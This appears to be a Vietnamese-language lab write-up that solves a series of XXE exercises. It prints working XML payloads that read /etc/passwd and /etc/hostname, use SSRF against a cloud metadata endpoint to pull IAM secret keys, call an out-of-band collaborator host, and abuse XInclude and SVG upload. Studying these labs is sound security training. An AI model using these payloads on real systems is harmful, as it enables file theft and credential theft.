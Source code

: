 # 1. Exploiting XXE using external entities to retrieve files
Ta thấy chức năng stock check có body là một đoạn mã XML. Như vậy ta có thẻ exploit bằng cách chèn đoạn code sau vào body:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả nội dung file /etc/passwd được in ra thành công
![image](https://user-images.githubusercontent.com/103978452/205596701-bb968712-24a2-4d79-94cd-6247202fb977.png)

# 2. Exploiting XXE to perform SSRF attacks
Cấu hình đoạn XML như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, ta thấy kết quả trả về `Invalid product ID: latest". Như vậy "latest" chính là response của "http://169.254.169.254". Truy cập "http://169.254.169.254/latest" thì ta lại được một chuỗi mới. Cứ như vậy, gửi URL đầy đủ là "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin", ta thu được SecretAccessKey.

![image](https://user-images.githubusercontent.com/103978452/206396710-4d353393-563d-45a0-ae34-68136b7c50db.png)

# 3. Blind XXE with out-of-band interaction
Cấu hình request như bài 2, nhưng thay đổi URL thành địa chỉ của Burp Collaborator. Sau khi submit, vào Burp Collaborator Client kiểm tra thì ta thấy có requests được gửi đến. Bài lab được giải thành công.

![image](https://user-images.githubusercontent.com/103978452/206397595-8e3a3423-55e8-4382-944a-cd02e89f8de4.png)

# 4. Blind XXE with out-of-band interaction via XML parameter entities
Cấu hình đoạn XML để gửi request đến Burp Collaborator sử dụng parameter entity:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exploit [<!ENTITY % xxe SYSTEM "http://pa3d5ksa3lk30zok1tbyh6llqcw2kr.oastify.com"> %xxe; ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Sau khi submit, vào Burp Collaborator kiểm tra thì thấy có requests được gửi đến. Bài lab được giải thành công.
# 5. Exploiting blind XXE to exfiltrate data using a malicious external DTD

# 6. Exploiting blind XXE to retrieve data via error messages

# 7. Exploiting XInclude to retrieve files
Ta thấy trong phần body của request `POST /product/stock` chỉ chứa hai tham số productId và storeId. Như vậy ta giả sữ giá trị của productId sẽ được đưa vào một đoạn xml ở server side.

Ta thay đổi productId như sau:
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
Lưu ý là productId được URL encoded. Sau khi gửi, ta có được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/206656757-5f3e6ceb-c0a4-49f2-bda6-b7cce8430317.png)

# 8. Exploiting XXE via image file upload
Trong request `GET /post/comment`, ta upload file svg với nội dung như sau:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg version="1.1" height="50" width="300"
     xmlns="http://www.w3.org/2000/svg"
>
  <text x="0" y="25" font-size="30" fill="white">&xxe;</text>
</svg>
```
Sau khi submit, vào link hình ảnh đã upload, ta thu được nội dung file /etc/hostname là "0478d36e6700". Submit solution, kết quả thành công.

# 9. Exploiting XXE to retrieve data by repurposing a local DTD

